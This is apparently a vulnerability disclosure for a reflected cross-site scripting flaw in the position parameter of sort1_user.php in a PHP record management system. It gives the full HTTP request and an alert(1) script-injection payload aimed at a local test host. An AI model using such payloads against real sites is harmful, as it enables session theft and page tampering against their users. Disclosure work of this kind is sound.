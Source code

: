 #### BUG_AUTHOR:acmglz
# Record management system – reflected XSS on (sort1_user.php position parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort1_user.php

On this page, position parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://192.168.0.100/Personnel_record_management_system/sort1_user.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/sort_user.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

position=Sort+Personnel+by+Position"><script>alert(1)</script>&filter1=
```
## Payload：
```
"><script>alert(1)</script>
```
## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/2873f48e-d7ae-4868-bfaa-9153c770d675">
 
